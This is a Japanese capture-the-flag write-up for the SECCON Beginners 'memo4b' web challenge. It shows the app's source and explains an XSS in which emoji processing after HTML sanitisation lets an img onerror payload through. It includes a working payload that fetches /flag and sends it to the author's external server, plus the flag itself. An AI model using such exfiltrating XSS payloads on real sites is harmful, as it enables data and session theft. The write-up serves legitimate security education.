

# memo4b:web:308pts
Emojiが使えるメモアプリケーションを作りました:smile:  
メモアプリ: [http://memo4b.challenges.beginners.seccon.jp:50000](http://memo4b.challenges.beginners.seccon.jp:50000)  
Admin Bot: [http://memo4b.challenges.beginners.seccon.jp:50001](http://memo4b.challenges.beginners.seccon.jp:50001)  
Admin Bot (mirror): [http://memo4b.challenges.beginners.seccon.jp:50002](http://memo4b.challenges.beginners.seccon.jp:50002)  
Admin Bot (mirror2): [http://memo4b.challenges.beginners.seccon.jp:50003](http://memo4b.challenges.beginners.seccon.jp:50003)  

[memo4b.zip](memo4b.zip)  

# Solution
メモアプリのURLとAdmin BotのURL、ソースコード一式が渡される。  
メモアプリにアクセスするとタイトルと内容を指定できるようだ。  
  
作成したメモのURLは`http://memo4b.challenges.beginners.seccon.jp:50000/post/49a0589f`となっており、パス`49a0589f`の部分がIDのようだ。  
ソースを見ると以下の通りであった。  
```js
import express from 'express';
import sanitizeHtml from 'sanitize-html';
import { marked } from 'marked';
import parse from 'url-parse';
import fs from 'fs';
import path from 'path';
import crypto from 'crypto';

const app   = express();
const posts = new Map();
const FLAG  = fs.readFileSync('./flag.txt','utf8').trim();

const emojiMap = {
  'smile': '😊',
  'heart': '❤️',
  'fire': '🔥',
  'thumbsup': '👍',
  'thumbsdown': '👎',
  'check': '✅',
  'x': '❌',
  'party': '🎉',
  'eyes': '👀',
  'thinking': '🤔',
  'cry': '😢',
  'laugh': '😂'
};

app.use(express.urlencoded({ extended: false }));
app.use(express.json());

function renderTemplate(templatePath, data) {
  let template = fs.readFileSync(templatePath, 'utf8');
  
  for (const [key, value] of Object.entries(data)) {
    const placeholder = `{{${key.toUpperCase()}}}`;
    template = template.replace(new RegExp(placeholder, 'g'), value);
  }
  
  return template;
}

app.get('/flag', (req,res)=> {
  const clientIP = req.socket.remoteAddress;
  const isLocalhost = clientIP === '127.0.0.1' ||
                     clientIP?.startsWith('172.20.');
  
  if (!isLocalhost) {
    return res.status(403).json({ error: 'Access denied.' });
  }
  
  if (req.headers.cookie !== 'user=admin') {
    return res.status(403).json({ error: 'Admin access required.' });
  }
  
  res.type('text/plain').send(FLAG);
});

app.get('/', (_req, res) => {
  const html = renderTemplate('./templates/index.html', {});
  res.send(html);
});

app.post('/', (req,res)=>{
  const { title='', md='' } = req.body;
  
  marked.setOptions({
    breaks: true,
    gfm: false
  });
  
  let html = marked.parse(md);

  html = sanitizeHtml(html, {
    allowedTags: ['h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'p', 'a', 'ul', 'ol', 'li', 'blockquote', 'code', 'pre', 'em', 'strong', 'br'],
    allowedAttributes: {
      'a': ['href']
    }
  });

  html = processEmojis(html);

  const id = crypto.randomUUID().slice(0,8);
  posts.set(id,{ 
    title: title.replace(/[<>]/g, ''), 
    html: html 
  });
  res.redirect(`/post/${id}`);
});

app.get('/post/:id', (req,res)=>{
  const post = posts.get(req.params.id);
  if(!post) return res.sendStatus(404);
  
  const html = renderTemplate('./templates/post.html', {
    title: post.title,
    content: post.html
  });
  res.send(html);
});

app.use('/static', express.static(path.join(process.cwd(),'static')));

app.get('/api/posts', (req, res) => {
  const postList = Array.from(posts.entries()).map(([id, post]) => ({
    id,
    title: post.title,
    url: `/post/${id}`
  }));
  res.json(postList);
});

function processEmojis(html) {
  return html.replace(/:((?:https?:\/\/[^:]+|[^:]+)):/g, (match, name) => {
    if (emojiMap[name]) {
      return emojiMap[name];
    }
    
    if (name.match(/^https?:\/\//)) {
      try {
        const urlObj = new URL(name);
        const baseUrl = urlObj.origin + urlObj.pathname;
        const parsed = parse(name);
        const fragment = parsed.hash || '';
        const imgUrl = baseUrl + fragment;
        
        return ``;
      } catch (e) {
        return match;
      }
    }
    
    return match;
  });
}

app.listen(50000, '0.0.0.0', ()=>console.log('Server running on http://localhost:50000'));
```
`/flag`でフラグが表示されるようだが、IPが内部でなければならないのでAdmin Botでなければ表示できない。  
XSSでこのエンドポイントをGETしろということらしい。  
メモアプリではmarkdownを`marked.parse`して、さらに許可タグを使った`sanitizeHtml`を行っているので自明XSSは難しそうだ。  
ここで、その後に行われている`processEmojis`に注目する。  
`:smile:`や`:https://example.com/satoki.png:`のような文字列を絵文字やimgタグに変換する処理を行っている。  
サニタイズの後での文字置換はXSSになりやすい。  
試しに`:https://satoki#" onerror=alert(1)//.png:`のようなペイロードを投げると、``のようなimgタグとなりalertした。  
あとは、以下のようにXSSで`/flag`をfecthして、外部(自身のサーバ)へ持ち出すメモを作る。  
先頭のURLを`.internal`にすることで、Botの読み込み時間を短縮しタイムアウトを防いでいる。  
```
:https://satoki.internal#" onerror=fetch('/flag').then(a=>a.text()).then(b=>fetch('//s4t.pw?'+b))//.png:
```
これをAdmin Botへ投げればよい。  
```
GET
/?ctf4b{xss_1s_fun_and_b3_c4r3fu1_w1th_url_p4r5e}
```
クエリにflagの付いたリクエストが自身のサーバへ到達した。  

## ctf4b{xss_1s_fun_and_b3_c4r3fu1_w1th_url_p4r5e}